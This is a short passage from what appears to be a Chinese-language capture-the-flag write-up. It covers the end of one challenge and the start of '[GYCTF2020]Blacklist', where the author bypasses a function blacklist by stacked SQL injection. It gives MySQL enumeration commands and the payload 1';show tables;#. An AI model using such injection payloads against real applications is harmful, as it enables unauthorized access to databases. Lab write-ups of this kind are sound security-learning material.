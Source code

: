  发现又是一段base64，拿去解码：拿到flag

![](img/99ada7fe973f27d652bd5575b66b8997.png)

# 8.[GYCTF2020]Blacklist

![](img/69417cd477bec2a5e9d18ab555678d69.png)

 发现过滤了很多函数，这里采用堆叠注入的方式

```
show databases;   获取数据库名
show tables;  获取表名
show columns from `table_name`; 获取列名
```

1';show tables;#

![](img/52e5a736d58655b29ce939de4e4eb26c.png)
